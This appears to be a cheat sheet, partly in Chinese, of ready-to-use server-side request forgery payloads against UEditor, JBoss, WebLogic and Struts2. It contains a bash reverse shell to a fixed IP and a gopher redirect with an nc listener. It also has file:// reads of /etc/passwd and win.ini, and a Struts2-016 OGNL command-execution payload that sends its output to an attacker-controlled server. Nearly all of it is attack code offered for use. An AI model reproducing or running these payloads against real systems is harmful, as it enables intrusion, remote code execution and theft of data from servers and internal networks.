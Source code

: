```
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://10.0.0.1:8080/jmx-console/HtmlAdaptor?action=invokeOp%26name=jboss.system%3Aservice%3DMainDeployer%26methodIndex=3%26arg0=http%3A%2F%2F远端地址%2Fhtml5.war%23.jpg
```
```
http://target.com/ueditor/jsp/getRemoteImage.jsp
POST:
    upfile=http://内网IP:8080/html5/023.jsp%23.jpg
```
> reverse shell

```
bash -i >& /dev/tcp/123.45.67.89/9999 0>&1
```

### Weblogic
> gopher.php

```
<?php
	header("Location:gopher://vps-ip:2333/_test");
?>
```
> vuln website

```
https://example.com/uddiexplorer/SearchPublicRegistries.jsp
POST:
    operator=http://vps-ip/gopher.php&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search
```
> vps

```
> nc -lvv 2333

Connection from xx.xx.xx.xx port 2333 [tcp/snapp] accepted
```
### Local File Read
```
http://www.xxx.com/redirect.php?url=file:///etc/passwd
http://www.xxx.com/redirect.php?url=file:///C:/Windows/win.ini
```
### Bool SSRF
> Struts2-016 POC

```
?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'command'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://SERVER/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
//修改SERVER为你vps地址,返回结果在access.log中查看
```

### SSRF Proxy
[SSRF_Proxy](https://github.com/bcoles/ssrf_proxy)

[ssrfsocks](https://github.com/iamultra/ssrfsocks)

